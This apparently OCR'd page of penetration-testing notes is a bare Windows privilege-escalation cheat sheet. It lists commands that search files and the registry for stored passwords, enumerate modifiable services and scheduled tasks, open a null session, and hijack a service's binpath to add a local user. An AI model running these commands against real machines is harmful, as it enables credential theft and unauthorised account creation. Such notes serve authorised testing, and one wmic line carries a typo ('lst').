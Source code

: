 
```bash
# show user rights for file 
icacls scsiaccess.exe

# finding services that user robert is allowed to modify
accesschk.exe -uwcqv "robert" * /accepteula

# finding scheduled services
schtasks /query /fo LIST /v

# link running processes to started services
tasklist /SVC

# search for specific filetypes with string password
findstr /si password *.xml *.ini *.txt

# grepping dir for specific strings
dir /s *pass* == *cred* == *vnc* == *.config*
```

```bash
# connect null session
net use \\<ip-address>\$Share “” /u:””
```


#### sc

```posh
sc qc Spooler

sc config "Spooler" binpath= "net user <username> <password> /add"

net start upnphost
```

#### Registry

```posh
reg query HKLM\SYSTEM\CurrentControlSet\Services

# grep registry for passwords
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```



#### wmic
```posh
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service list full

wmic /output:c:\Inetpub\wwwroot\services.txt service lst /format:hform
```
